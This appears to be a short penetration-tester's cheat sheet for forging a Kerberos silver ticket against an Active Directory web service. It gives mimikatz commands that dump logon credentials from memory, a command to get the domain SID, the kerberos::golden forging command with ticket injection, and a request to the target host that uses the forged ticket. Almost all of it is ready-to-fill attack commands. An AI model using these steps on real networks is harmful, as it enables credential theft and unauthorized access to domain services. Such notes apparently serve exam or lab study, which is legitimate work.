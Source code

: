 # SILVER TICKET
#requirements
```
-   SPN password hash
-   Domain SID
-   Target SPN
```

#service_hash
```
#mimikatz 

privilege::debug
sekurlsa::logonpasswords
```

#domain_sid
```
whoami /user
```


#target_sid
```
# SILVER TICKET
HTTP SPN resource on WEB04 (HTTP/web04.corp.com:80)
```

#create_ticket
```
kerberos::golden /sid:[sid of user forging ticket] /domain:[domain] /ptt /target:[host FQDN] /service:http /rc4:[hash] /user:[user]

confirm with klist

iwr -UseDefaultCredentials http://[host]
```